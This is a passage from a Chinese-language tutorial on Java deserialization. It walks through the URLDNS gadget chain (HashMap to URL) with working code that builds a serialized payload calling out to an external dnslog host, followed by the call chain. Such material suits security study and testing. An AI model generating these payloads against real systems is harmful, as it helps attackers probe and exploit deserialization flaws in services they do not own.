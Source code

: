 据上述所说，我们可以构造如下代码生成序列化数据进行验证：

```java
    public static void main(String[] args) throws Exception{
        String file = "demo2.ser";
        HashMap<URL, Integer> hashMap = new HashMap<>();
        URL url = new URL( "http://test1.dd9cf16a.dnslog.store");
        hashMap.put(url, 0);
        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);

        serialize(hashMap,file);

        deserialize(file);
    }

```

但是序列化的过程中会触发putVal方法导致触发我们的污点，导致我们的payload还没发送就被出发了（dnslog），所以这个构造还不够完美，参考 ysoserial ，我们利用 java.net.URL 序列化不会携带 handler 字段信息的这一特性 （handler字段被transient修饰了，表示序列化过程中忽略该字段，URL对象的数据是存放在其他字段中的），重写 handler 避免其进行 host 解析即可。 

```java
 //代码位于 DeserDemo\Demo2\
	static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
    
    public static void main(String[] args) throws Exception{
        String file = "demo2.ser";
        URLStreamHandler handler = new SilentURLStreamHandler();
        HashMap<URL, Integer> hashMap = new HashMap<>();
        URL url = new URL( null,"http://test1.dd9cf16a.dnslog.store",handler);
        hashMap.put(url, 0);
        Field f = java.net.URL.class.getDeclaredField("hashCode");
        f.setAccessible(true);
        f.set(url, -1);

        serialize(hashMap,file);

        deserialize(file);

    }
```

构造链就是HashMap到URL，调用过程如下：

```
HashMap.readObject()

-> HashMap.hash()

->URL.hashCode()

->URLStreamHandler.hashCode()

->URLStreamHandler.getHostAddress()
```
